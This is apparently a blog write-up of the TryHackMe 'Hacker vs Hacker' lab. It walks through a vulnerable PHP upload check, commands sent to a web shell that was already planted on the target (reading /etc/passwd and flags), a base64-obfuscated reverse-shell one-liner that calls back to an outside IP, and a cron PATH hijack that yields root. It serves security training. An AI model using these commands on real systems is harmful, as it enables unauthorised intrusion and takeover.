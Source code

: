 ```yaml
---
title: Tryhackme - hacker vs hacker
date: 2022-08-20 22:19:00 +0100
categories: [TryHackMe]
tags: [TryHackMe, File Upload]
render_with_liquid: false
---
```


# recon

I added the machine’s IP to my `/etc/hosts` as `nope.thm` then ran an `nmap` scan to find `ssh` and `http` ports open

```bash
$ sudo nmap  nope.thm  -v
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

visiting the web server shows the website has a file upload functionality

![file_upload](https://user-images.githubusercontent.com/71389295/185770220-befd6c9f-27c4-4783-a1bc-42cc8ef3fd85.png)![root](https://user-images.githubusercontent.com/71389295/185770231-52ae023a-8685-4276-be61-9ae541b80af2.png)


it was giving the following result whenever I tried to upload a file

![hacked](https://user-images.githubusercontent.com/71389295/185770223-8ed83266-43a5-4f65-b157-bbefd767817f.png)

examining the upload requests shows some commented php source code in the server response

![server_response](https://user-images.githubusercontent.com/71389295/185770241-f400586c-6d2d-4dd7-b910-81ab77a8006e.png)

```php
-->Hacked! If you dont want me to upload my shell, do better at filtering!

<!-- seriously, dumb stuff:

$target_dir = "cvs/";
$target_file = $target_dir . basename($_FILES["fileToUpload"]["name"]);

if (!strpos($target_file, ".pdf")) {
  echo "Only PDF CVs are accepted.";
} else if (file_exists($target_file)) {
  echo "This CV has already been uploaded!";
} else if (move_uploaded_file($_FILES["fileToUpload"]["tmp_name"], $target_file)) {
  echo "Success! We will get back to you.";
} else {
  echo "Something went wrong :|";
}

-->
```

this is a basic vulnerable file upload code in PHP, where the programmer only checks for the presence of an allowed extension (in this case `.pdf`), if it’s found then the file is uploaded to the server with a random name under `cvs/` directory

I took a loot at `cvs/` but the listing was disabled

![listing_disabled](https://user-images.githubusercontent.com/71389295/185770224-7f21642a-c85d-4baf-b8b6-ab2a3ff75794.png)

at first I thought this is actual code for `upload.php` so I tried uploading some shell with the name `shellcode.pdf.php`, but after getting the same response from the server when trying to upload different files, I figured that the attacker uploaded his shell on the server and removed the upload functionality, the idea of this box is to think like a hacker who already made his was inside, so I checked for the presence of `nope.thm/cvs/shell.pdf.php` and …
 
![boom](https://user-images.githubusercontent.com/71389295/185770218-0fcd7549-9e80-40ca-a6d1-b6fb07b6c877.png)

then I tried to give it an argument via `cmd` parameter and it worked as well!

`http://nope.thm/cvs/shell.pdf.php?cmd=ls`

![cmd](https://user-images.githubusercontent.com/71389295/185770219-ee2fc1c4-2483-4e07-b284-5786d403e536.png)

next thing I did was getting the list of users on the system `http://nope.thm/cvs/shell.pdf.php?cmd=cat+/etc/passwd`, getting the user flag from `/home/lachlan/user.txt` (`http://nope.thm/cvs/shell.pdf.php?cmd=cat+/home/lachlan/user.txt`) then getting a reverse shell with [`http://nope.thm/cvs/shell.pdf.php?cmd=echo+L2Jpbi9iYXNoIC1sID4gL2Rldi90Y3AvMTAuOC4xNDQuMTQ5LzEwMDAwIDA8JjEgMj4mMQo=|base64+-d|bash`](http://nope.thm/cvs/shell.pdf.php?cmd=echo+L2Jpbi9iYXNoIC1sID4gL2Rldi90Y3AvMTAuOC4xNDQuMTQ5LzEwMDAwIDA8JjEgMj4mMQo=%7Cbase64+-d%7Cbash)

![reverse_connection](https://user-images.githubusercontent.com/71389295/185770226-f3cf592a-8542-4138-807f-cace491d3418.png)

there was an annoying bit about this box, which is that you couldn’t spawn a pty duo to a crontab killing all `pts`s so the moment you hit `ctrl-c` by mistake you loose your shell

```php
$ python3 -c'import pty;pty.spawn("/bin/bash")'
www-data@b2r:/var/www/html/cvs$ nope
$ :cri:
/bin/bash: line 3: :cri:: command not found
$ ps aux | grep pkill
root        1715  0.0  0.1   2608   596 ?        Ss   10:35   0:00 /bin/sh -c /bin/sleep 31 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done
root        1717  0.0  0.1   2608   596 ?        Ss   10:35   0:00 /bin/sh -c /bin/sleep 41 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done
root        1720  0.0  0.1   2608   596 ?        Ss   10:35   0:00 /bin/sh -c /bin/sleep 51 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done
```

# priv esc

I found a `.bash_history` file under `/home/lachlan/` with `lachlan`'s plaintext password

```bash
$ ls /home
lachlan
$ ls /home/lachlan -a
.
..
.bash_history
.bash_logout
.bashrc
.cache
.profile
bin
user.txt
$ cat /home/lachlan/.bash_history
./cve.sh
./cve-patch.sh
vi /etc/cron.d/persistence
echo -e "[REDACTED]" | passwd
ls -sf /dev/null /home/lachlan/.bash_history
```

next we login to the machine via ssh, note that the `-T` is important not to create a `pts`m cause otherwise the `pkill` loop would kill our connection

```bash
$ ssh -T lachlan@nope.thm
lachlan@nope.thm's password: 
Welcome to Ubuntu 20.04.4 LTS (GNU/Linux 5.4.0-109-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Thu 18 Aug 2022 11:06:20 AM UTC

  System load:  0.0               Processes:             126
  Usage of /:   25.0% of 9.78GB   Users logged in:       0
  Memory usage: 51%               IPv4 address for eth0: 10.10.37.216
  Swap usage:   0%

0 updates can be applied immediately.

The list of available updates is more than a week old.
To check for new updates run: sudo apt update

id
uid=1001(lachlan) gid=1001(lachlan) groups=1001(lachlan)
```

now to check the persistence method that the hacker left on the machine

```bash
cat /etc/cron.d/persistence
PATH=/home/lachlan/bin:/bin:/usr/bin
# * * * * * root backup.sh
* * * * * root /bin/sleep 1  && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done
* * * * * root /bin/sleep 11 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done
* * * * * root /bin/sleep 21 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done
* * * * * root /bin/sleep 31 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done
* * * * * root /bin/sleep 41 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done
* * * * * root /bin/sleep 51 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done
```

two things to note here

- `/home/lachlan/bin` is the first entry on the `PATH`
- `pkill` is invoked without an absolute file path
    
    so dropping a malicious `pkill` script under `/home/lachlan/bin` should get us `root` privileges
    
![root](https://user-images.githubusercontent.com/71389295/185770284-bdad7916-eb5d-449f-96eb-269a27db8cea.png)
